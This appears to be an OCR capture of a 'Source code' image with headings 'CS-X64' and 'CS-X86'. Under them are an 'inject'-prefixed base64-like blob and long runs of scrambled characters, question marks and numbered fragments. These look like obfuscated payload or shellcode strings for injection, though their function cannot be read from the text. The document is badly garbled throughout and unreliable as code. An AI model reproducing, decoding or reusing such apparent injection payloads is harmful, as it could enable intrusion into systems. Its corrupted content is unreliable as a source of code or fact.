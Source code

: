 # CS-X64

injectFaBD4+/2iYxyQO9cTKfxapknB5P31jHP+tXqq38hNc2rIDU7UwVcPocHehVXBF8E7llbLyh4tUKKBfD5PQPWxvBlp8w+xTuUGsBTuw==ebszg

# CS-X86

adminfwpum@%%wthugq#twf/HcqgrtDmxjy-lfp/esff/lcwu/hefp/nfu1#uhn?aqh=gdjejeson

bsadf48|2?,?5;6,f??;10,?Y;14??,r;????1????8,.;??22???,??8;???26???,t;????30,@;??34????,@;?38,m??;????42,i????;46???,t;50??,2;54?,???0;58,?5;6?2,????1;????66,E;????70???,Y;7???4??,?Y;78,?n??;8?2,D;8?6,s???;90,H???;94,????S;9???8???,m;10????2????,s;?106,G?;110,????z;11????4,F;1?1?8??,3;1????22,s;??126,???d?;???130,??c;1??34,?c;?138,?l;??142,????W;1????46?,???A;15?0,U;????154,?4;1????58,Y;???162???,r;1?66,a??;17???0?,h;1?7???4,d?;?17???8,??L;18???2??,?c;1???86,i;??190????,L;?|N????yD5rw????x?fgHz??Y?jL?yr?wEz.??tb0??8L9B???tzJ????b@???xmj@v???kt????mMLr??i9cb??t????L?yf2Cl????w???03u???z5X????0R11D???LElV??2Y???V1???D??Y???mMXnN????BzD??mNNs????b??fqHu????vYSJ??DnmqV???usc?XC????GDd???2zwo???5Fw???ov30?aus???ru?AdxB???zcEY???McxfB????lzgcW???frC???A?s4MU?15??z4?ru???gYe????BXrs??muad????fwh????f?Lrd??3B????DLA?3Mc?3y????n??i????0?e9Lrthrf


this is4??5|2???,U;???6,???6;10,?X;14??,0;18????,@;22???,j;2????6,X;3???0,?,???;??34,m;?38,c;???42,?W;???4?6?,6???;50,M????;54,R???;58,????V;62,????Z;???66,Q?;70,D?;74,????B;7?8,x?;8????2,J;8?6,H?;90?,W;9????4,1;9?8?,O;1?02,6;?1???06,9???;110,??H;114????,3;11?8,???r???;1??22,L;??1???26??,o;13?0,?P;134?,D;???1?38,B???;14???2,????h;146???,U;15????0,8???;???154,?m;1??58,???c???;????1????62,.;????1??6??6,E;1????70,7???;174,??H;1????78,????y;|uy??H???Umsg6?i???nt?Xztm??0t???EL??@w??5vj????JHDX??OvY,d?BbmsH?fcP?z???zWH???fo6????gBnMt????TNR????Iz?B??V???jLSZ???My???5QDr?vDY??Ko????Brx????mx???dmeJ???z1eHw??D??EWrM??f1Ntz??Ov??KZ6Wu???t9Df???wHvDP??3o5t???rAb?wL???4??eW?od??t???nP????Bkf??DUP????tBzxH?h1rzU???wO??K8?n??HDm?jMx??cNrb.???AItE0???Kt7P??M??r?Hqp=???y=wow!
